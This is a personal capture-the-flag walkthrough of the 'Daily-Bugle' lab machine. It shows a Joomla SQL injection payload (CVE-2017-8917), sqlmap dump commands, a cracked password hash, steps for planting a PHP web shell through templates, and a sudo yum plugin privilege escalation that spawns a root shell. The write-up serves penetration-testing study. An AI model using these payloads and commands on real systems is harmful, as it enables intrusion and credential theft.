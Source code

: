 # Daily-Bugle Walkthrough
Name: Daily-Bugle
Date:  23/09/2022
Difficulty:  Hard
Goals:  
- OSCP 2/5 Medium Machines with or without walkthough if needed 
- Practice SQLi revision from the morning
Learnt:
- I need to and have scheduled in a python scripting exploits day 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Apex/Screenshots/ping.png)


[Joomla](https://www.joomla.org/) php 5.6.4
CentOS

![](www-webroot.png)

```
eaa83fe8b963ab08ce9ab7d4a798de05 
f7lrn1l0vo1vv9cmmqqc42d6l4
```

![](misfornatecookie.png)

## Exploit

Blind-Based Boolean SQLi 
![780](cve-2017-8917.png)


From looking [brainwrf](https://github.com/brianwrf/Joomla3.7-SQLi-CVE-2017-8917/blob/master/CVE-2017-8917.py)
```
/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(1,user()),1)
```
![](meanwhile.png)

Scripting Python day is somewhat long over due. I have done lots of l33tcode questions,  but for some reason the request library and solving problems by requesting stuff has yet, but soon stick.. [Assist from Mathias](https://medium.com/@Mathias_Rud/tryhackme-daily-bugle-writeup-35d74fc8df7f) with SQLmap 

```bash
sqlmap -u "http://10.10.94.98/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

![](johan.png)

`#__users`

```bash
sqlmap -u "http://10.10.83.52/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -C password -D joomla -T "#__users" --dump

bcrypt blowfish
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

```

Pure brute forcing with john... `spiderman123`

![](joomlapanel.png)

## Foothold

One of the best resources on the internet: [haax.fr](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/joomla/)

```
# You must first log as admin
# Then you must activate the PHP extension in settings
System → Component → Media → “php” in legal extensions and nothing in ignored extension

# If it's not enough and the manager is detecting malicious PHP upload, you can still edit templates
# For example, the /index.php on the “protostar" template
→ Use reverse shell from pentestmonkey
→ http://pentestmonkey.net/tools/web-shells/php-reverse-shell

# On old versions, the control panel and features are different, but you can use templates
# First go into templates parameters and activate preview
# Then, on one template it is possible to edit code
# Then it is possible to add shell (weevely for example)
```

![](webshell.png)


## PrivEsc

This part I will do without walkthrough, because 

```bash

uname -a

Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

cat /etc*-release

CentOS Linux release 7.7.1908 (Core)
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

CentOS Linux release 7.7.1908 (Core)
CentOS Linux release 7.7.1908 (Core)

```

![](configuration.png)

Tried login into the mariadb
```bash
bash-4.2$ mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: NO) 
# :(
```

Jonah's reused the password: nv5uz9r3ZEDzVjNu
![](passwordreuse.png)

GTFObins with yum and sudo as:
![](sudol.png)


```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

![]()
![](root.png)